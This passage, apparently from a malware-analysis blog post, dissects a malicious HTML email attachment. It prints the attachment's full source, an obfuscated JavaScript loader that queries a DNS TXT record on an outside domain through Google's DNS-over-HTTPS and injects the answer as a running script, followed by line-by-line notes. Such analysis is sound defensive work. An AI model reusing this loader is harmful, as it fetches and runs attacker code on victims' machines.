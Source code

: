 To reduce the risk of accidental double clicking on the malicious attachments you can do the following:

> Re-associate .html extensions to open in notepad or your favorite hex editor.  This will reduce the chance of accidentally double clicking a malicious file while trying to transfer it to your sandbox. Why stop there?  Re-associate other high risk extensions (ex. .doc, .xls, .pdf, .vbs, .js) to open in Notepad too.  I may revisit this idea in another article.

## Lets Get Started
Here is the code contained in the malicious HTML attachment:

{% highlight XML linenos %}
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta content="" /><script type="text/javascript" xml:space="preserve">//<![CDATA[
    var v = window.atob("aHR0cHM6Ly9kbnMuZ29vZ2xlLmNvbS9yZXNvbHZlP25hbWU9ZmV0Y2guc2x6eGtjZWUuZ2xhbWlzYm91bmQuY29tJnR5cGU9VFhU");
    var _0x2b42=['0xc','open','GET','onreadystatechange','status','readyState','parse','responseText','createElement','script','innerHTML','substring','send','push','shift','0x0','0x1','0x2','0x3','0x4','0x5','0x6','0x7','data','0x8','0x9','0xa','0xb','length','body'];(function(_0x26248d,_0x33adc9){var _0x47fb3a=function(_0xb8f9b1){while(--_0xb8f9b1){_0x26248d['push'](_0x26248d['shift']());}};_0x47fb3a(++_0x33adc9);}(_0x2b42,0x97));var _0x58f7=function(_0x3aa2b9,_0x591490){_0x3aa2b9=_0x3aa2b9-0x0;var _0x2886d9=_0x2b42[_0x3aa2b9];return _0x2886d9;};function ccc(){var _0x3bf9f2=[_0x58f7('0x0'),_0x58f7('0x1'),_0x58f7('0x2'),_0x58f7('0x3'),_0x58f7('0x4'),_0x58f7('0x5'),_0x58f7('0x6'),'Answer',_0x58f7('0x7'),_0x58f7('0x8'),_0x58f7('0x9'),_0x58f7('0xa'),'appendChild',_0x58f7('0xb')];(function(_0x532510,_0x26a9cf){var _0x47b474=function(_0x5c32a3){while(--_0x5c32a3){_0x532510[_0x58f7('0xc')](_0x532510[_0x58f7('0xd')]());}};_0x47b474(++_0x26a9cf);}(_0x3bf9f2,0x1b2));var _0x58060d=function(_0x13b5d5,_0x174409){_0x13b5d5=_0x13b5d5-0x0;var _0x1aae1c=_0x3bf9f2[_0x13b5d5];return _0x1aae1c;};var _0x48f014=new XMLHttpRequest();_0x48f014[_0x58060d(_0x58f7('0xe'))](_0x58060d(_0x58f7('0xf')),v);_0x48f014[_0x58060d(_0x58f7('0x10'))]=function(){if(_0x48f014[_0x58060d(_0x58f7('0x11'))]==0xc8&&_0x48f014[_0x58060d(_0x58f7('0x12'))]==0x4){var _0x45edda=JSON[_0x58060d(_0x58f7('0x13'))](_0x48f014[_0x58060d(_0x58f7('0x14'))]);var _0x2e08f9=_0x45edda[_0x58060d(_0x58f7('0x15'))][0x0][_0x58f7('0x16')];var _0x599d3c=document[_0x58060d(_0x58f7('0x17'))](_0x58060d(_0x58f7('0x18')));_0x599d3c[_0x58060d(_0x58f7('0x19'))]=_0x2e08f9[_0x58060d(_0x58f7('0x1a'))](0x1,_0x2e08f9[_0x58f7('0x1b')]-0x1);document[_0x58f7('0x1c')][_0x58060d(_0x58f7('0x1d'))](_0x599d3c);}};_0x48f014[_0x58060d('0xd')]();}
    //]]>
    </script><script src="https://accounts.google.com/o/oauth2/revoke?callback=ccc()" type="text/javascript" xml:space="preserve"></script>
    <title></title>
</head>
<body>
    Loading...
</body>
</html>
{% endhighlight XML %}

Here are some of the things that stand out :

* Line 1 is the XML header
* Line 2 is defining an HTML XML Document
* Line 3 start of the HTML document
* Line 5 script tag containing JavaScript
* Line 5 also contains interesting code - xml:space="preserve">//<![CDATA[
* Line 6-7 JS code
* Line 8 interesting end for a JavaScript - //]]>
* Line 9 end of first script and started of second script
* Line 12-14 the HTML body that shows the message "Loading..."
* Line 15 end of the html - </html>
